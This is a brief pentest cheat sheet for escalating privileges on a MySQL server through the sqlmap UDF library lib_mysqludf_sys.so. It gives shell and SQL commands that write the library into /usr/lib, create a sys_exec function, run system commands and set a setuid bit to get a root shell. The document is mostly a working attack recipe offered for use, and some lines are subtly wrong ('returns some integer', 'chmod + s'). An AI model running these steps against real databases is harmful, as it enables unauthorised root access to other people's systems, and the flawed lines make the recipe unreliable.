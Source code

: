 - - -
## Steps:
Download the ib_mysqludf_sys.so then transfer over to target
- For [x32-Bit](https://github.com/sqlmapproject/sqlmap/blob/master/data/udf/mysql/linux/32/lib_mysqludf_sys.so_) 
- For [x64-Bit](https://github.com/sqlmapproject/sqlmap/blob/master/data/udf/mysql/linux/64/lib_mysqludf_sys.so_) 

```sh
mysql -u root
```

```mysql
use mysql;
create table hack(line blob);
insert into hack values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from hack into dumpfile '/usr/lib/lib_mysqludf_sys.so';
create function sys_exec returns some integer soname'lib_mysqludf_sys.so';

select sys_exec('id >/tmp/out; chown user:user /tmp/out');
select sys_exec('chmod + s /tmp/setuid');

```

```sh
/tmp/setuid
```

- - -


